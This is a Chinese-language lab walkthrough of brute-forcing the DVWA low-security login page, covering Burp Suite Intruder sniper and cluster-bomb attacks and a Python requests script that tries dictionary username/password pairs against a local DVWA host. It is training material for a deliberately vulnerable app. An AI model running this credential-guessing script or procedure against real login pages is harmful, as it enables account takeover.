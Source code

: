 [TOC]

# 暴力破解

##概述

暴力破解安全级别为低时的登陆页面。

DVWA：Vulnerability: Brute Force页面如下：

![low_login](image/low_login.png)

输入正确的用户名和密码，得到的结果为

![low_login_successful](image/low_login_successful.png)

本实验的目的是使用burp suite字典攻击该页面，获取用户名和密码。



## 1.bursuite拦截

字典攻击该页面，首先需要获取一个用户登陆时往服务器发送的请求报文。攻击者随便发送并用burpsuite拦截这个报文。

![low_request_example](image/low_request_example.png)

bursuite中proxy拦截这个报文（bursuite配置网上有教程，配置好重启浏览器）

![low_burpsuite_proxy](image/low_burpsuite_proxy.png)



## 2.将上述报文发送到intruder

![low_proxy_to_intruder](image/low_proxy_to_intruder.png)

可以在intruder中看到这个报文

![low_intruder_introduce](image/low_intruder_introduce.png)

intruder中将报文标绿的字段是变量，也就是需要暴力破解的目标。

intruder中有4中破解模式

* sniper：最常用，破解一个变量，比如知道用户名，破解密码。需要一个字典
* battering-ram
* pitchfork
* cluster bomb：破解多个变量。比如需要破解用户名和密码，有两个字典。



## 3.sniper

只将密码设置为变量，只选中密码值字段即可。此处我将用户名编辑为了`admin`

![low_set1_pwd](image/low_set1_pwd.png)

在`payloads - payloads options`中导入字典，也可以手动输入

![low_payload1](image/low_payload1.png)

字典文件示例：

![low_dictionary](image/low_dictionary.png)

点击右上角 start attack即可开始攻击,攻击结果如图,因为正确登陆和错误时返回页面的内容长度不同，可以根据消息的长度判断出正确的密码是`password`

![low1_result](image/low1_result.png)



## 4.cluster bomb模式

设置多个变量，此处我设置了两个

![low_cluster_set](image/low_cluster_set.png)

在payload中设置字典。

### username字段字典设置

payload set中选择1，并按照sniper中的方式设置该字段字典

![low_cluster_dic1](image/low_cluster_dic1.png)



###password字段

payload set中选择2，设置password的字典。按照sniper中的方式设置该字段字典

![low_cluster_dic2](image/low_cluster_dic2.png)



开始攻击，可以看到burp suite自动开始攻击，同样可以根据长度来判断结果

![low_cluster_result](image/low_cluster_result.png)



## 5.结果分析

这个页面的源码地址 `DVWA/vulnerabilities/brute/source/low.php`，分析源码，这是一个典型的万能密码（存在sql注入漏洞）。这个页面没有对输入次数进行限制，即错误一定次数后，XX秒等到，所以使得攻击者可以不断利用暴力破解的方式去寻找正确的密码。



## python爬虫实现字典攻击

```python
import requests

header = {
    'Host': 'dvwa.localhost',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Accept-Language': 'zh-cn',
    'Connection': 'keep-alive',
    'Cookie': 'PHPSESSID=vbj4g725p9d0aulhe02s1gm417; security=low',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36'
}

with open('dic.txt') as f:
    i = 0;
    for item in f.readlines():
        pos = item.rfind(",")
        username = item[:pos]
        password = item[pos + 1:]
        url = "http://dvwa.localhost/vulnerabilities/brute/" + "?username=" + username.strip() + \
                     "&password=" + password.strip() + "&Login=Login"
        rep = requests.get(url, headers=header)
        print(i,username.strip(), password.strip(),len(rep.text))
        i = i + 1
```

字典的内容为：

![low_python_dic](image/low_python_dic.png)

返回值：

![low_python_result](image/low_python_result.png)